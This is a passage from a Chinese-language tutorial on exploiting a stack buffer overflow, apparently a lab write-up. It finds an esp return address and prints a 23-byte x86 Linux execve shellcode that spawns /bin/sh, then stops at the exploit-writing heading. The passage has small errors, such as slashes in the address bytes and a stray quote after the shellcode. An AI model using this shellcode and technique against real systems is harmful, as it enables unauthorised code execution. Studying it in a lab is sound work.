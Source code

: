 <img src=".\图片\Snipaste_2023-06-29_16-53-44.png" alt="Snipaste_2023-06-29_16-53-44" style="zoom:80%;" />

获得 esp 地址为 `0xffffd250`

反写为：x50/xd2/xff/xff

### 4、shellcode编写

谷歌搜索获得shellcode：

```
http://shell-storm.org/shellcode/files/shellcode-827.php
```

因为它运行在Intel，并且操作系统是86位Linux，因此我从此处获取Shellcode连接：



<img src=".\图片\1651646253_62721f2d4a34f5e3dc045.png!small" alt="3636" style="zoom:80%;" />

```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

当选择好shellcode恶意代码后，即可进行exp写入shellcode进行编写payload。

### 5、EXP编写

接下来需要执行exp，获得shell，开始编写。
编写EXP：
